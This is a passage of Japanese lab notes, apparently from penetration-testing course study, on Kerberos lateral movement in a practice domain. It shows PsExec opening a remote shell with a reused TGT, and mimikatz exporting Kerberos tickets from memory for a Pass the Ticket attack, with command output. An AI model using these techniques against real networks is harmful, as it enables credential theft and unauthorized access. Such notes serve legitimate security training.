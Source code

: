 
これによってNTLMハッシュがKerberosTGTに変換されてKerberos認証に依存するツールを使用できるようになる  
→PsExecで横展開先にリモート接続できるようになる  

KerberosTGTを再利用してfiles04サーバー上でコマンドシェルを起動することができる  

```
PS C:\Windows\system32> cd C:\tools\SysinternalsSuite\
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\files04 cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```



### Pass the Ticket

Pass the Ticket攻撃は TGS を利用します。  
TGS はネットワーク上の別の場所にエクスポートおよび再挿入され、特定のサービスに対する認証に使用される可能性があります。  
さらに、サービス チケットが現在のユーザーに属している場合、管理者権限は必要ありません。  
  
**メモリ内の現在の TGT/TGS をすべて抽出し、daveの WEB04 TGS を独自のセッションに注入します。これにより、制限されたフォルダーにアクセスできるようになります。**  

```
sekurlsa::tickets /exportコマンドを使用してメモリからすべてのTGT/TGSをエクスポートする

mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
```